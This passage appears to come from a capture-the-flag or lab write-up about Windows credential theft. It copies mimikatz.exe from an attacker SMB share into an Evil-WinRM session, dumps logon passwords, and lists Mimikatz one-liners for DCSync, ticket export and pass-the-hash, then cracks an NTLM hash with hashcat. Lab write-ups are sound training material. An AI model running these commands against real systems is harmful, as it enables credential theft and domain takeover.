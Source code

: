 ```bash
└─$ smbserver.py s . -smb2support
```

**Execute**

> [!wew] Notice
> - Note the command format for windows binary!
> - Remeber to add `exit` on the end of the cmd, otherwise revshell will freeze because of its interactive command prompt

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> copy \\10.11.19.145\s\mimikatz.exe .\mimi.exe
*Evil-WinRM* PS C:\Users\Administrator\Documents> .\mimi.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

**Execute in interactive reverse shell**

```bash

```

### Cheat Sheets

> https://cheats.philkeeble.com/active-directory/mimikatz
> https://tools.thehacker.recipes/mimikatz/modules
> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md

```bash
# One Liner
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"'

# Impersonate domian Admin
Invoke-Mimikatz -Command "token::elevate /domainadmin"

# DCsync
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate /domainadmin" "lsadump::dcsync /user:krbtgt" "exit"'

# Extract Tickets
Invoke-Mimikatz -Command "sekurlsa::tickets /export"

# Pass The Hash
Invoke-Mimikatz -Command "sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm_hash> /run:powershell"
```

### What is the Machine1 Password?

Copy NTLM hash from mimikatz oneliner result

```bash
echo '64f12cddaa88057e06a81b54e73b949b' > h
hashcat h /opt/wordlists/rockyou.txt -m 1000
```
